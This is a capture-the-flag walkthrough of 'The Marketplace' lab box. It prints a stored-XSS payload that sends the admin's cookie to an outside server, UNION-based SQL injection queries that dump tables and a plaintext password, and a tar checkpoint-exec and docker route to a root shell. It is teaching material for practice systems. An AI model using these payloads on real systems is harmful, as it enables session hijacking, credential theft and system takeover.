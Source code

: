 # The Marketplace

This challenge exploits XSS, SQL injection and linux priv escalation.

## Reconnaissance

First to do some reconnaissance on the box, starting with nmap. Can be seen that there are 2 ports open that we can use namely http and ssh ports.

![nmap](./nmap.PNG)

Going to the website we get greeted to a home page with home, log in and sign up buttons along with some products already ip for sale.

Trying a couple of basic log ins like admin admin or admin password etc lead to nothing. We can however create an account. Now I have a messages tab at the top.

Looking at listings they can be reported to admins.

![Report](./Report.PNG)

Interesting that an admin will visit it.

I can also create a new listing.

## Flag 1

[Listing](./NewListing.PNG)

Some textboxes, can we XSS? I'll test with `<script>alert('xss');</script>`.

[xss](./xss.PNG)

Great! Now we can try and get hold of some admin access to the website using cookie grabbing.

Personally I didn't know how to do this from the start so I did some googling about and found an article ![here](https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2) which does basically what I want to do. This is how I amended it to this.

On the article there is the following xss script:

```html
<script type=“text/javascript”>document.location=“http://192.168.0.48:5000/?c=“+document.cookie;</script>
```

This essentially forwards the cookie to the webserver set up on that ip and port. Now I can just set up a simple http server with python listening to everything and just change the port to 8000 and the IP to my THM VPN IP.

Can set up the python server using `python3 -m http.server` and this will just capture anything coming through on you VPN IP on port 8000.

We then just create a listing with the XSS and then report it so the admin looks at it and we should have the admin cookie. Notice when you create the listing the page is now your directory, this doesnt help us so we need to know how it is being reported. If you just hover over another report listing we can see its in the format `http://<ip>/report/3` with 3 being the 3rd product on them name. well just amend to your XSS product number and report and watch the admin cookie come through.

Then just change your cookie and refresh, the first flag on the admin panel!

## Flag 2

Well now we have admin, before the cookie expires we need to do some looking about. Notice that on the page we are michael but we can see jake is also an admin. (Knowing the nature of CTFS we probably wana get into jakes account as we know ssh port is open).

![Panel](./Panel.PNG)

You can actually click on those boxes. I noticed that the URL changed and it seemed to be searching for information so I added something to the end of the URL and got an error. Googling the error revealed it was a MySQL error. Nice so from here can assume we need to SQL inject.

Be aware if you trigger a bad gateway your cookie expires and you'll need to grab another.

Now I noticed adding ` password` didn't kick me out but let me continue and when I changed the number to an account that doesnt exist I get an SQL error. Now by looking at the page I can see 4 different things being displayed. User ID or number, name, ID again and if it has admin so we know 4 fields being show so in order to union ill pad 3 other results.

One useful thing to know in MySQL is the `GROUP_CONCAT()` function which groups all data onto one line which is greate for output. ![Docs](./https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php). Same with `database()` which returns the database name.

![database](./Database.PNG)

Database name is marketplace.

```sql
UNION SELECT 1, GROUP_CONCAT(table_name), 3 ,4 FROM information_schema.tables WHERE table_schema='marketplace'
```
Produces:

![Tables](./Tables.PNG)

so now we have table names.

Lets have a peak at Users as this might contain some useful information for the ssh.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='users'
```

![ColmnsUsers](./ColmnsUsers.PNG)

Ok so look at passwords

![passwords](./passwords.PNG)

Hashes :( probs wont beable to crack them. Looking back the messages table seemed interesting.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='messages'
```

![messages columns](./messagescolumns.PNG)

lets look at messages content:

![messages](./messages.PNG)

aha a password in plaintext. Lets ssh jake.

![Flag2](./Flag2.PNG)

The next flag!

## Flag 3

This one is a little more involved but even still, all can be found using GTFO bins.

First of all i ran the standard find all SUID command

```shell
find / -perm /6000 -type f -executable 2>/dev/null
```

but this lead to nothing. Then I looked at the sudo using `Sudo -l` and saw this

![sudo](./sudo.PNG)

so michael can run backup.sh as sudo. Interesting.

Looking into backup.sh we see

```sh
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So this uses tar to archive files. Interesting. Looking at GTFO they have a tar section and it has a sudo exploit.

Just to make sure michael can run it I ran `chmod 777 backup.tar` so he can backup everything in theat directory.

The just create some files named `--checkpoint=1` and `--checkpoint-action=exec=sh` and this can be done by either using touch or vim. Just run the backup.sh and you'll have michael shell.

Make sure you run it as michael using `sudo -u michael /opt/backups/backup.sh` and you'll spawn the shell.

![michael shell](./mshell.PNG)

Now we have michael we can get root as we need to access root folder.

Doing an ID check we see this.

![ID](./ID.PNG)

hmmmm docker usually isn't there, again looking on GTFO bins it has a command u can just paste in and root!

![root shell](./rshell.PNG)

Just navigate to your root folder and collect your flag :)
